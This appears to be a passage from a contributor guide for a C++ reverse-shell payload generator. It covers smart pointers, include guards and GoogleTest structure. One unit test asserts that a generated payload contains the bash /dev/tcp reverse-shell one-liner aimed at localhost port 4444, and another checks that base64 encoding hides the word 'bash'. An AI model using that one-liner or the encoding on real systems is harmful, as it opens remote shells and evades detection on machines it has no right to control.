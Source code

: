 ### Memory Management

Use smart pointers for automatic memory management:

```cpp
// Good: Use unique_ptr for single ownership
std::unordered_map<std::string, std::unique_ptr<IPayload>> registry_;

// Good: Use shared_ptr for shared ownership
std::shared_ptr<IPayload> payload = std::make_shared<BashPayload>();
```

### Include Guards

Use `#pragma once` for header files:

```cpp
// Good: Modern include guard
#pragma once

// Avoid: Traditional include guards
#ifndef PAYLOAD_FACTORY_H
#define PAYLOAD_FACTORY_H
// ...
#endif
```

## Testing

### Unit Testing Structure

Create test files in the `tests/` directory:

```cpp
// tests/test_payload_factory.cpp
#include "../src/payloads/PayloadFactory.h"
#include <gtest/gtest.h>

class PayloadFactoryTest : public ::testing::Test {
protected:
    PayloadFactory factory;
    Options opts;
    
    void SetUp() override {
        opts.host = "127.0.0.1";
        opts.port = 4444;
        opts.platform = Platform::LINUX;
        opts.payloadType = PayloadType::REVERSE;
    }
};

TEST_F(PayloadFactoryTest, GenerateLinuxBashPayload) {
    opts.interpreter = "bash";
    std::string payload = factory.generateByType(opts);
    EXPECT_TRUE(payload.find("bash -i >& /dev/tcp/127.0.0.1/4444 0>&1") != std::string::npos);
}

TEST_F(PayloadFactoryTest, Base64Encoding) {
    opts.encoding = Encoding::BASE64;
    std::string payload = factory.generateByType(opts);
    EXPECT_FALSE(payload.find("bash") != std::string::npos); // Should be encoded
}
```
